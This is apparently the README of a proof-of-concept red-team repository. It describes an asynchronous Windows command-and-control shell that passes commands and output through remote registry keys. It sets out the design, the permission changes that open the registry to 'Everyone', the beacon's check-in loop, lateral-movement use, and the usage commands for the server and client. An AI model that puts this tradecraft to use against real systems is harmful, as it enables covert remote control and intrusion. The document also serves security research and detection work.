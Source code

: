 # Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells are all Proof-of-Concept and have only been tested in my lab. They are made to test the if the shells actually work and nothing else. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client and server will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for specific users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are then likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will then check the C2 server for the value of "sleep" to determine how often to check it. 
6. The client then executes whatever command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener/C2):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe victim01
```
**Client-side (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
